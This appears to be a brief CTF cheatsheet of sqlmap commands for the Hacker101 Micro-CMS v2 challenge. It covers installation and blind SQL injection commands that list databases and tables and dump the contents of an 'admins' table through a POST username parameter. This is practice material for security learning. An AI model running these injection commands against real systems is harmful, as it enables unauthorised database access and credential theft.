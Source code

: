 # SQL Map Cheatsheet

Usefull SQL Map commands, some of these come from real life examples in CTFs.

## MacOS Installation

```
brew install sqlmap
```

## Blind SQLi attack

Examples for Hacker101 CTF Moderate Micro-CMS v2

### Get database list

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --level 2
```

### Get tables list

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --tables -D level2 --dbms mysql --level 2
```

### Get contents of specific table

```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dump -D level2 -T admins --dbms mysql --level 2
```
```
sqlmap -u <URL> --method POST --data "username=FUZZ&password=" -p username --dump -D level2 -T pages --dbms mysql --level 2
```
